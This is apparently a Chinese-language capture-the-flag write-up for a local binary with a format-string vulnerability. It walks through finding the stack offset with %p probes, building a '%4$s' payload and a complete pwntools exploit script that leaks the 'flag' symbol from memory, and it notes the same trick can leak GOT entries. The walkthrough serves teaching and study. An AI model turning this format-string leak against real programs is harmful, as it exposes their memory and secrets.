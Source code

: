 
1.  肉眼观察源码

明显的存在格式化字符串漏洞，因为没有过滤用户输入数据，并且直接用printf打印。

2.  确定出`char s[100]`在第2个`printf`用`%s`解析时候，在栈中是第几个参数？

调试得出在第4个参数这里，如果不能调试，那只能用一开始的1111%p%p%p%p%p%p%p这种方式去爆破，当解析到1的ASCII码即可。

![image-20220622170359011](https://img2022.cnblogs.com/blog/2080041/202206/2080041-20220622170359048-51915759.png)

3.  构造出Payload

上面已经确定参数位置，那就可以构造`%4$s`，接下来需要把`1111`替换成我们要打印内存的地址，这里要打印flag符号，(可以用readelf -s 来看看flag符号名)

![image-20220622170732004](https://img2022.cnblogs.com/blog/2080041/202206/2080041-20220622170731909-970018758.png)

就是叫flag，那么可以用pwntools的`pwnlib.elf`模块来获取符号名的偏移，具体代码如下：

    leakmemory = ELF("./leakmemory")
    #获取flag符号偏移
    flag_offset = leakmemory.symbols['flag']
    

最后构造的Payload如下:

    Payload = p32(flag_offset) + b'%4$s'
    

4.  写出exp，打印出flag

    #导入pwn模块
    from pwn import *
    #设置运行环境
    context(arch='i386',os='linux')
    context.terminal = ['tmux','splitw','-h']
    #封装进程
    p = process("./leakmemory")
    #解析ELF
    leakmemory = ELF("./leakmemory")
    #获取flag符号偏移
    flag_offset = leakmemory.symbols['flag'] #如果要泄漏got表可以改成 leakmemory.got['printf']等函数名.
    #构造Payload
    Payload = p32(flag_offset) + b'%4$s'
    #发送Payload
    print("[+] 发送Payload:")
    p.sendline(Payload)
    print(Payload)
    #接受返回数据
    print("[+] 接受数据:")
    print(p.recvline())
    flag = p.recv()
    flag = u32(flag[4:8])
    print("flag地址:{0}".format(hex(flag)))
    #打印flag
    print("[+] flag如下:")
    print("")
    #读取leakmemory中flag内存
    print(leakmemory.read(flag,30))
    